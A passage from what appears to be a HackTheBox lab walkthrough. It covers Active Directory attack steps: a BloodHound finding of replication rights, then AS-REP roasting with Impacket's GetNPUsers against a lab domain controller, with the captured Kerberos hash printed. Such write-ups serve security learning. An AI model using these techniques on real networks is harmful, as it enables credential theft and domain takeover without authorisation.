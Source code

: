 ![HackTheBox-StartingPoint-PathFinder-bloodhound2.png](images/800px-HackTheBox-StartingPoint-PathFinder-bloodhound2.png)

We can see that the `svc_bes` has `GetChangesAll`  privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.

### Lateral Movement

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). We can check this using a tool such as Impacket's `GetNPUsers`.

```
# git clone https://github.com/SecureAuthCorp/impacket.git
# cd impacket/examples
(root💀kali)-[/home/kali/Documents/tools/impacket/examples]
└─# python3 GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:5fed9e70404f9f3e533da75fc5c8a6e0$feea6f77a795ab07264edf21ebafd039c5699560ef4116548f52ffc426481cb9c7da3bc26577cdf80732e9ddac1e3125d6f51b9c79d4d9f6943a4c9114eff8eeb8571ee07c9a8ae69c0c5235ebc5b0b8a6591eb02257ad04af50bbe0e9ced2311e9c7413bbf70faf43b2d0c64114e5bfbbef8f475df64f9a7d21c981aac73398f330e97f1439829d5f5f28cdd0a3b0d62764e1f46bfd9a1034c72ec5a635dbac32254263a51ac7eb4f3e8b202f25180f5d28a78110030cdba67e6d2c24db91c5946e983082b3f60c7f156d056a83fcb92a4f5eff7ef8bb7ee6fd2f5d71c05847e76022b10640dc5d2cfa06b23f5f93cc
```
